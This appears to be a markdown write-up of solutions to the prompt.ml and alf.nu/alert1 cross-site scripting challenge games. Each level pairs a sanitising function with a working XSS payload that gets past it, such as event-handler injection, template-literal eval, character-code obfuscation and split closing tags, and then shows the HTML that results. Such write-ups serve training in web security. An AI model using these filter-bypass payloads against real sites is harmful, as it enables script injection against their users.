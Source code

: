 # prompt.ml

## Challenges
- [0](#0)
- [1](#1)
- [2](#2)
- [7](#7)
- [A](#a)

## 0

- Task
 
```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```
"><svg onload=prompt(1)//
```

- HTML source

```
<input type="text" value=""><svg onload=prompt(1)//">
```

## 1

- Task

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```
<svg onload=prompt(1)//
```

- HTML source

```
<article><svg onload=prompt(1)// </article>
```

## 2

- Task

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

## 7

- Task

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

- Solution

```
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```. Escape encoding

### A

- Task

```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}   
```

- Solution

```
eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)
```

- HTML source

```
<script>eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)</script>
```

# alf.nu/alert1

### 1. Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```
",alert(1),"
```

### 2. Adobe

- Task

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
\");alert(1)//
```

### JSON

- Task

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</script><script>alert(1)//
```

### Markdown

- Task

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```
[[x|http://onerror=javascript:alert(1)//]]
```

### Skandia

- Task

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

### JSON2

- Task

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```

